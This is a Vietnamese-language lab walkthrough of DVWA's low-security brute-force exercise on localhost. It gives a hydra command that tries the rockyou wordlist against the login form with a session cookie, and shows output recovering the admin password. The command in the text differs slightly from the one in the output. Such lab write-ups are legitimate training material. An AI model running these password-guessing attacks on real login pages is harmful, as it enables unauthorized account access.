

# Brute Force

Mục tiêu là tấn công một trang đăng nhập HTTP.

**Mức độ: Thấp.**

Chúng ta cần truyền vào form 2 trường thông tin là username và password.


Ta sẽ bắt gói tin http từ client thì có thông tin như sau:



Ta thấy có trường thông tin username và password được hiện thị rõ từ đó ta có thể dùng hydra để tấn công nhằm mục tiêu tìm được tài khoản chính xác.

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt localhost http-get-form "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H=Cookie: security=low; PHPSESSID=rt5o26sooph0v8p5nuarofj346"
```

<details><summary markdown="span">Bấm để xem output : </summary>

```Shell
┌──(kali㉿kali)-[~]
└─$ hydra -l admin -P /usr/share/wordlists/rockyou.txt localhost http-form-get '/dvwa/vulnerabilities/brute/index.php:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H=cookie: security=low; PHPSESSID=r64e85mgv5hb2h4f06otns746d'

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-10-15 11:15:02
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-get-form://localhost:80/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H=Cookie: security=low; PHPSESSID=rt5o26sooph0v8p5nuarofj346
[80][http-get-form] host: localhost  login: admin   password: password
1 of 1 target successfully completed, 1 valid password found
```
</details>